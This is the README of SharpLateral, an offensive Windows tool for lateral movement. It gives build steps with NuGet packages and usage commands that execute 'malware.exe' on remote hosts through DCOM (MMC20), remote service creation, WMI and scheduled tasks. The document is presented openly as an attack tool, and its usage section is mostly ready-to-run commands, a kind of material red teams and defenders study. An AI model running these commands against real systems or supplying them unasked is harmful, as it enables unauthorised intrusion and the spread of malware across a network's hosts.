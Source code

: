 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20<br>
 <br>Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it
<br>WMI:<br>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




